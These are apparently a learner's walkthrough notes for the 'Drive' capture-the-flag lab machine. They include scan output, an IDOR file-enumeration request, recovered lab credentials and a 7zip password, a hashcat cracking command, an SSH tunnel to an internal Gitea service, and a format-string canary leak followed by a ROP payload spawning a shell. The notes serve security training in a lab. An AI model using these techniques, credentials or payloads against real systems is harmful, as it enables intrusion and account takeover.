





PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
| 256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_ 256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Doodle Grive
|_http-favicon: Unknown favicon MD5: C4276574CE1EC8D9F28F801F8693BBA6
| http-methods:
|_ Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
nikto
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.235
+ Target Hostname: drive.htb
+ Target Port: 80
+ Start Time: 2023-10-17 20:38:20 (GMT2)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: Cookie csrftoken created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ /home/: This might be interesting.
+ /login/: This might be interesting.
+ /register/: This might be interesting.
+ /reports/: This might be interesting.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 7963 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time: 2023-10-17 20:45:56 (GMT2) (456 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
000009882: 301 0 L 0 W 0 Ch "contact"
000020281: 301 0 L 0 W 0 Ch "home"
000024650: 301 0 L 0 W 0 Ch "login"
000033906: 301 0 L 0 W 0 Ch "register"
000034371: 301 0 L 0 W 0 Ch "reports"
000039940: 301 0 L 0 W 0 Ch "subscribe"
000043393: 301 0 L 0 W 0 Ch "upload"
POST /upload/ HTTP/1.1
Host: drive.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://drive.htb/upload/
Content-Type: multipart/form-data; boundary=---------------------------249047711333898935312932022178
Content-Length: 11035
Origin: http://drive.htb
Connection: close
Cookie: csrftoken=pwSHbJg1SOR73DPnX5OzgXARWtJYStFH; sessionid=i9banomlvwckxdhzsur2ju52t03bizko
Upgrade-Insecure-Requests: 1
-----------------------------249047711333898935312932022178
Content-Disposition: form-data; name="csrfmiddlewaretoken"
wqMZDNZHOkAXkzTtGCKfkDppbnj4DiKXLMuwEm5ywYhUd2yGtxoEqqP6XGSSlBfu
-----------------------------249047711333898935312932022178
Content-Disposition: form-data; name="name"
test
-----------------------------249047711333898935312932022178
Content-Disposition: form-data; name="file"; filename="upload.py"
Content-Type: text/x-python
#!/usr/bin/env python
"""Simple HTTP Server With Upload.
This module builds on BaseHTTPServer by implementing the standard GET
and HEAD requests in a fairly straightforward manner.
"""
__version__ = "0.1"
__all__ = ["SimpleHTTPRequestHandler"]
__author__ = "bones7456"
__home_page__ = "http://li2z.cn/"
import os
import posixpath
import BaseHTTPServer
import urllib
import cgi
import shutil
import mimetypes
import re
try:
from cStringIO import StringIO
except ImportError:
from StringIO import StringIO
class SimpleHTTPRequestHandler(BaseHTTPServer.BaseHTTPRequestHandler):
"""Simple HTTP request handler with GET/HEAD/POST commands.
This serves files from the current directory and any of its
subdirectories. The MIME type for files is determined by
calling the .guess_type() method. And can reveive file uploaded
by client.
The GET/HEAD/POST requests are identical except that the HEAD
request omits the actual contents of the file.
"""
server_version = "SimpleHTTPWithUpload/" + __version__
def do_GET(self):
"""Serve a GET request."""
f = self.send_head()
if f:
self.copyfile(f, self.wfile)
f.close()
def do_HEAD(self):
"""Serve a HEAD request."""
f = self.send_head()
if f:
f.close()
def do_POST(self):
"""Serve a POST request."""
r, info = self.deal_post_data()
print r, info, "by: ", self.client_address
f = StringIO()
f.write('<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">')
f.write("<html>\n<title>Upload Result Page</title>\n")
f.write("<body>\n<h2>Upload Result Page</h2>\n")
f.write("<hr>\n")
if r:
f.write("<strong>Success:</strong>")
else:
f.write("<strong>Failed:</strong>")
f.write(info)
f.write("<br><a href=\"%s\">back</a>" % self.headers['referer'])
f.write("<hr><small>Powerd By: bones7456, check new version at ")
f.write("<a href=\"http://li2z.cn/?s=SimpleHTTPServerWithUpload\">")
f.write("here</a>.</small></body>\n</html>\n")
length = f.tell()
f.seek(0)
self.send_response(200)
self.send_header("Content-type", "text/html")
self.send_header("Content-Length", str(length))
self.end_headers()
if f:
self.copyfile(f, self.wfile)
f.close()
def deal_post_data(self):
boundary = self.headers.plisttext.split("=")[1]
remainbytes = int(self.headers['content-length'])
line = self.rfile.readline()
remainbytes -= len(line)
if not boundary in line:
return (False, "Content NOT begin with boundary")
line = self.rfile.readline()
remainbytes -= len(line)
fn = re.findall(r'Content-Disposition.*name="file"; filename="(.*)"', line)
if not fn:
return (False, "Can't find out file name...")
path = self.translate_path(self.path)
fn = os.path.join(path, fn[0])
line = self.rfile.readline()
remainbytes -= len(line)
line = self.rfile.readline()
remainbytes -= len(line)
try:
out = open(fn, 'wb')
except IOError:
return (False, "Can't create file to write, do you have permission to write?")
preline = self.rfile.readline()
remainbytes -= len(preline)
while remainbytes > 0:
line = self.rfile.readline()
remainbytes -= len(line)
if boundary in line:
preline = preline[0:-1]
if preline.endswith('\r'):
preline = preline[0:-1]
out.write(preline)
out.close()
return (True, "File '%s' upload success!" % fn)
else:
out.write(preline)
preline = line
return (False, "Unexpect Ends of data.")
def send_head(self):
"""Common code for GET and HEAD commands.
This sends the response code and MIME headers.
Return value is either a file object (which has to be copied
to the outputfile by the caller unless the command was HEAD,
and must be closed by the caller under all circumstances), or
None, in which case the caller has nothing further to do.
"""
path = self.translate_path(self.path)
f = None
if os.path.isdir(path):
if not self.path.endswith('/'):
# redirect browser - doing basically what apache does
self.send_response(301)
self.send_header("Location", self.path + "/")
self.end_headers()
return None
for index in "index.html", "index.htm":
index = os.path.join(path, index)
if os.path.exists(index):
path = index
break
else:
return self.list_directory(path)
ctype = self.guess_type(path)
try:
# Always read in binary mode. Opening files in text mode may cause
# newline translations, making the actual size of the content
# transmitted *less* than the content-length!
f = open(path, 'rb')
except IOError:
self.send_error(404, "File not found")
return None
self.send_response(200)
self.send_header("Content-type", ctype)
fs = os.fstat(f.fileno())
self.send_header("Content-Length", str(fs[6]))
self.send_header("Last-Modified", self.date_time_string(fs.st_mtime))
self.end_headers()
return f
def list_directory(self, path):
"""Helper to produce a directory listing (absent index.html).
Return value is either a file object, or None (indicating an
error). In either case, the headers are sent, making the
interface the same as for send_head().
"""
try:
list = os.listdir(path)
except os.error:
self.send_error(404, "No permission to list directory")
return None
list.sort(key=lambda a: a.lower())
f = StringIO()
displaypath = cgi.escape(urllib.unquote(self.path))
f.write('<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">')
f.write("<html>\n<title>Directory listing for %s</title>\n" % displaypath)
f.write("<body>\n<h2>Directory listing for %s</h2>\n" % displaypath)
f.write("<hr>\n")
f.write("<form ENCTYPE=\"multipart/form-data\" method=\"post\">")
f.write("<input name=\"file\" type=\"file\"/>")
f.write("<input type=\"submit\" value=\"upload\"/></form>\n")
f.write("<hr>\n<ul>\n")
for name in list:
fullname = os.path.join(path, name)
displayname = linkname = name
# Append / for directories or @ for symbolic links
if os.path.isdir(fullname):
displayname = name + "/"
linkname = name + "/"
if os.path.islink(fullname):
displayname = name + "@"
# Note: a link to a directory displays with @ and links with /
f.write('<li><a href="%s">%s</a>\n'
% (urllib.quote(linkname), cgi.escape(displayname)))
f.write("</ul>\n<hr>\n</body>\n</html>\n")
length = f.tell()
f.seek(0)
self.send_response(200)
self.send_header("Content-type", "text/html")
self.send_header("Content-Length", str(length))
self.end_headers()
return f
def translate_path(self, path):
"""Translate a /-separated PATH to the local filename syntax.
Components that mean special things to the local file system
(e.g. drive or directory names) are ignored. (XXX They should
probably be diagnosed.)
"""
# abandon query parameters
path = path.split('?',1)[0]
path = path.split('#',1)[0]
path = posixpath.normpath(urllib.unquote(path))
words = path.split('/')
words = filter(None, words)
path = os.getcwd()
for word in words:
drive, word = os.path.splitdrive(word)
head, word = os.path.split(word)
if word in (os.curdir, os.pardir): continue
path = os.path.join(path, word)
return path
def copyfile(self, source, outputfile):
"""Copy all data between two file objects.
The SOURCE argument is a file object open for reading
(or anything with a read() method) and the DESTINATION
argument is a file object open for writing (or
anything with a write() method).
The only reason for overriding this would be to change
the block size or perhaps to replace newlines by CRLF
-- note however that this the default server uses this
to copy binary data as well.
"""
shutil.copyfileobj(source, outputfile)
def guess_type(self, path):
"""Guess the type of a file.
Argument is a PATH (a filename).
Return value is a string of the form type/subtype,
usable for a MIME Content-type header.
The default implementation looks the file's extension
up in the table self.extensions_map, using application/octet-stream
as a default; however it would be permissible (if
slow) to look inside the data to make a better guess.
"""
base, ext = posixpath.splitext(path)
if ext in self.extensions_map:
return self.extensions_map[ext]
ext = ext.lower()
if ext in self.extensions_map:
return self.extensions_map[ext]
else:
return self.extensions_map['']
if not mimetypes.inited:
mimetypes.init() # try to read system mime.types
extensions_map = mimetypes.types_map.copy()
extensions_map.update({
'': 'application/octet-stream', # Default
'.py': 'text/plain',
'.c': 'text/plain',
'.h': 'text/plain',
})
def test(HandlerClass = SimpleHTTPRequestHandler,
ServerClass = BaseHTTPServer.HTTPServer):
BaseHTTPServer.test(HandlerClass, ServerClass)
if __name__ == '__main__':
test()
-----------------------------249047711333898935312932022178
Content-Disposition: form-data; name="groups"
28
-----------------------------249047711333898935312932022178--
The following request lets you change the number, and youre able to view files from other users:
GET /113/block/ HTTP/1.1
Host: drive.htb

→ send to intruder, choose payload numbers 1-1000
Found credentials in one of the files: martinCruz:Xk4@KjyrYv8t194L! We can login with this users credentials on the website & SSH!
other interesting file (101):
hi team!
me and my friend(Cris) created a new scheduled backup plan for the database
the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM
*Note: the backup directory may change in the future!
*Note2: the backup would be protected with strong password! don't even think to crack it guys! :)
Found some sha1 encrypted passwords in the sqllite db:

Check format on how to crack with hashcat, with current creds of martinCruz:
CHATGPT:
The algorithm identifier, which in this case is "sha1," indicating that SHA-1 was used to hash the original data.
The salt, which is "jzpj8fqBgy66yby2vX5XPa" in your example. A salt is a random value that is added to the data before hashing to increase the security of the hash. The use of a salt prevents attackers from easily precomputing hashes for common values.
The actual hashed value, which is "52f17d6118fce501e3b60de360d4c311337836a3" in your example. This is the result of hashing the concatenation of the original data and the salt with the specified hash algorithm.
example_hashes [hashcat wiki] - If you get a “line length exception” error in hashcat, it is often because the hash mode that you have requested does not match the hash. To verify, you can test your commands against example hashes.
hashcat -m 120 "60919b923803c52057c0cdd1d58f0409e7212e9f:E9cadw34Gx4E59Qt18NLXR" "Xk4@KjyrYv8t194L!"
# Cracked! -> so correct format is <hash:salt> & module 120
The goal of this project is to provide the easiest, fastest, and most painless way of setting up a self-hosted Git service.
With Go, this can be done platform-independently across all platforms which Go supports, including Linux, macOS, and Windows, on x86, amd64, ARM and PowerPC architectures. You can try it out using the online demo.
Documentation | Gitea Documentation - Gitea is a painless self-hosted all-in-one software development service, it includes Git hosting, code review, team collaboration, package registry and CI/CD. It is similar to GitHub, Bitbucket and GitLab.
Found this application on the system:

→ Adress already in use?
SSH tunnel:
ssh martin@drive.htb -L 3000:localhost:3000
# go to localhost:3000 -> we can see the git platform and repo
Check for working creds:
martin@drivehtb:Xk4@KjyrYv8t194L!

Found 7zip password: H@ckThisP@ssW0rDIfY0uC@n:) → works to decrypt all zips

Quite a few changes in hashtypes: SHA1 → bcrypt → SHA1
Check sqllite db files in zips
tomHands has a different hash (1_Nov) than in the unencrypted db file:
The username prompt is the way in. The binary builds its prompt with a
printf-family function and passes the user-controlled username straight
in as the format string. Because the username is the format string itself,
anything typed there is interpreted as format directives, and each
directive consumes one argument from the variadic list — which maps onto
values that live on the stack: local variables, saved registers, leftover
function arguments.
%15$x is the specific leak. %x formats one argument as an
unsigned hexadecimal integer, and the 15$ prefix selects the fifteenth
variadic argument instead of walking them in order (POSIX positional
specifiers, supported by glibc). The fifteenth slot happens to line up with
the stack canary of the current frame, so entering %15$llx as the
username prints the canary's bytes in hex — which the script converts back
with int(p.recv(16), 16).
The position isn't magic; it was found by probing. Sending
%1$x, %2$x, … one at a time dumps successive stack words, and the
value that looks like a canary (8 bytes with a leading 00 byte) marks
the right offset. A different binary usually needs a different index.
One limitation worth stating plainly: %15$x does not "read 16 bytes
from the process". It formats a single argument as a hexadecimal integer —
at most one word. Leaking multiple values takes several specifiers
(%15$p %16$p …), a wider conversion like %llx for a full 8-byte
qword, or a different mechanism (%s for strings, %n for writes)
altogether.
With the canary known, the rest is a classic stack-overflow bypass:
payload = b"A" * 56 + p64(canary) + b"B" * 8 + rop.chain() keeps the canary
intact so the stack protector never fires, and the ROP chain (a
ret gadget for alignment, then system("/bin/sh")) runs a shell.